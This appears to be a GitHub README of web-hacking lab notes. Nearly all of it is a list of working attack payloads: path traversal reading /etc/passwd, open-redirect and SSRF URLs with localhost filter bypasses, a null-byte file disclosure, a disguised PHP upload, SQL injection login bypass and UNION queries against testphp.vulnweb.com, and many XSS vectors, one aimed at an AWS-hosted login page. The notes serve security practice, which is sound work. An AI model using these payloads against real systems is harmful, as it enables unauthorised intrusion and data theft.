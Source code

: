 
# Web Attacks by Example


### LAB 1
1. Getting etc passwd (easy)
* `http://188.166.2.231:8185/challenge-1/?file=../../../../../etc/passwd`


2. Finding the test file
* `http://188.166.2.231:8185/challenge-2/?file=.././.././.././test`


3. Find etc passwd
* `http://188.166.2.231:8185/challenge-3/?file=hi.jpg/..././..././..././..././..././..././etc/passwd`



## Lab  Open  Redirect 
1. Redirect to a webpage
* `http://example.com/example.php?url=http://malicious.example.com`

2.  Redirect using redirect.php
* `http://167.99.32.124/test/redirect.php?url=https://google.com`


## LAB SSRF 

1. `http://188.166.2.231:8183/challenge-1/?url=http://127.0.0.1/admin.php`


2. Decode base64 image with a decoder (it is the admin page) 

* `http://188.166.2.231:8183/challenge-2/?url=http://127.0.0.1/admin.php/png`


3. Using tool xip.io && 127.0.1ANYTHING is blocked so use 127.1
 
* `http://188.166.2.231:8183/challenge-3/?url=http://127.1.0.1.xip.io/admin.php`



## Local File Disclossure  LAB

1. Getting etc passwd 
*    `http://167.99.32.124/test/?p=admin/download&file=..././..././..././etc/passwd%00txt`

     
     
 2. Uploading a PHP file disguised as a  png extension in the uploads folder
 *    `http://167.99.32.124/test/uploads/hack.png.ph`


## SQL Injections (SQLi)
The website used to practice is provided by *OWASP Vulnerable Web Applications Directory Project* (VWAD). It's a list of  known vulnerable web applications available for legal security and vulnerability testing. Meanining it's legal to practice hacking techniques on these sites!

The full lists of sites can be found here: https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project#tab=On-Line_apps

We will use: http://testphp.vulnweb.com for the sake of these examples

### Manual SQLi 

1. Bypassing password to login
* password: `bunnies' or '1'='1`

2. Testing if an SQL injection is possible:
* `http://testphp.vulnweb.com/listproducts.php?cat=1'`
* `http://testphp.vulnweb.com/listproducts.php?cat=1 order by 3--`

3. In case you have any doubts we actually are navigating through their SQL database note the error:
* `http://testphp.vulnweb.com/listproducts.php?cat=1 order by 12--`

4. Taking things further:
* * `http://testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,2,3,4,5,6,7,8,9,10,11`


5. View the hosting machine type:
* `http://testphp.vulnweb.com/listproducts.php?cat=-1 union select 1,2,3,4,5,6,@@version,8,9,10,11`

6. Another way to disclose the identity of the locahost 
* `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,version(),current_user()`


### Ways to write XSS Code

* ` “><script>alert(document.cookie)</script>`

#### Anchor Tags
 if something like this present :
* `<a href=”myxsstestdmqlwp”>Click here ...</a>`

Trigger the anchor tag via the URL like this:

*  javascript:alert(1);
*  #”onclick=”javascript:alert(1)



#### Event Handlers
Numerous event handlers can be used with various tags to cause a script to execute. The following are some little-known examples that execute script without requiring any user interaction:

 * `<xml onreadystatechange=alert(1)> `
 * `<style onreadystatechange=alert(1)>`
 * `<iframe onreadystatechange=alert(1)>`
 
 * `<object onerror=alert(1)>`
 * `<object type=image src=valid.gif onreadystatechange=alert(1)></object>`
 * `<img type=image src=valid.gif onreadystatechange=alert(1)>   `            
 * `<input type=image src=valid.gif onreadystatechange=alert(1)>`
 * `<isindex type=image src=valid.gif onreadystatechange=alert(1)>`
 * `<script onreadystatechange=alert(1)>`
 * `<bgsound onpropertychange=alert(1)>`
 * `<body onbeforeactivate=alert(1)>`
 * `<body onactivate=alert(1)>`
 * `<body onfocusin=alert(1)>`

 #### HTML5 Event Handlers

 using autofocus to trigger actions 

 * `<input autofocus onfocus=alert(1)>`
 * `<input onblur=alert(1) autofocus><input autofocus>`
 * `<body onscroll=alert(1)><br><br>...<br><input autofocus>`

 Mouseover

 * `</a onmousemove=alert(1)>`


http://ec2-52-71-36-89.compute-1.amazonaws.com/issues/login_page.php'"/><input autofocus onfocus=alert(1)>
